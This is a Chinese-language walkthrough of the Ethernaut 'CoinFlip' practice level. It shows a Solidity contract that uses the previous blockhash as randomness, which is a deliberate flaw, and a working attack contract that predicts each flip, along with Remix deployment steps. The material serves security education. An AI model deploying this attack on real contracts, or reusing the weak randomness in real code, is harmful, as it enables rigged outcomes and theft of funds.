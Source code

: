 3_CoinFlip
=
本关要求
--

  1.This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.  

合约代码
--
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/math/SafeMath.sol';

    contract CoinFlip {

      using SafeMath for uint256;
      uint256 public consecutiveWins;
      uint256 lastHash;
      uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

      constructor() public {
        consecutiveWins = 0;
      }

      function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
          consecutiveWins++;
          return true;
        } else {
          consecutiveWins = 0;
          return false;
        }
      }
    }  
合约分析
--
本关要求我们预测对10次硬币的正反  

查看<code>flip</code>方法可知，<code>coinFlip</code>的值决定硬币正反，<code>coinFlip</code>的值通过<code>blockValue.div(FACTOR)</code>计算得到  

<code>blockValue</code>的值为进行预测时当前区块的<code>blockhash</code>  

因为<code>FACTOR</code>的值为常量，所以如果能提前预知<code>blockValue</code>的值，就能预测硬币的正反  

因为有<code>if (lastHash == blockValue)</code>的判断，同一个区块的合约只能提交一次。所以我们采用合约调用的方法，先在我们编写的合约内计算硬币的正反，再调用本关合约，提交预测的结果  

攻击
--
编写攻击合约代码  
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.0.0/contracts/math/SafeMath.sol";


    // 被调用合约接口
    interface CoinFlipInterface {
        function flip(bool _guess) external returns (bool);
    }

    // 攻击合约
    contract CoinFlipAttack{

        using SafeMath for uint256;
        address private addr;
        CoinFlipInterface cf_interface;

        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor(address _addr) public {
            addr = _addr;
            //cf_ins = CoinFlip(_addr);
            cf_interface = CoinFlipInterface(_addr);
        }

    // 使用本关合约相同代码计算硬币正反
        function getSide() private view returns  (bool) {
            uint256 blockValue = uint256(blockhash(block.number.sub(1)));
            uint256 coinFlip = blockValue.div(FACTOR);
            bool side = coinFlip == 1 ? true : false;
            return side;
        }

    // 调用接口实例
        function attack() public {
            bool side = getSide();
            cf_interface.flip(side);
        }

    }
部署本关合约，并查看合约地址  

![图片](https://user-images.githubusercontent.com/35074461/196595386-591c69c0-b59c-459e-b930-5688b0808c10.png)  
  
编译攻击合约，设置Remix部署环境为Injected Provider，连接Metamask。设置部署地址为0x1474ADE39c052Ffb14aA38726c63Fd8972FFb044  
  
![图片](https://user-images.githubusercontent.com/35074461/196595791-c42836e4-471b-402c-8b22-9ac9d129a8be.png)  

点击attack进行合约攻击，查看预测结果，发现攻击成功  
  
![图片](https://user-images.githubusercontent.com/35074461/196593086-7c9df5e9-68d1-4506-bbf0-8f0bca4cb16b.png)  
继续提交直至成功10次，完成本关  
  
![图片](https://user-images.githubusercontent.com/35074461/196594859-f4bf89a1-d10e-4ddb-a385-5b65c870b061.png)  


Ps:
--
<code>blockhash(block.number.sub(1)</code>是一种常见的伪随机数生成漏洞，更多关于智能合约随机数漏洞，可查看[《智能合约中的随机数漏洞》](https://github.com/Gednoveh/SmartContractSecurity/blob/main/%E9%9A%8F%E6%9C%BA%E6%95%B0%E9%A2%84%E6%B5%8B)
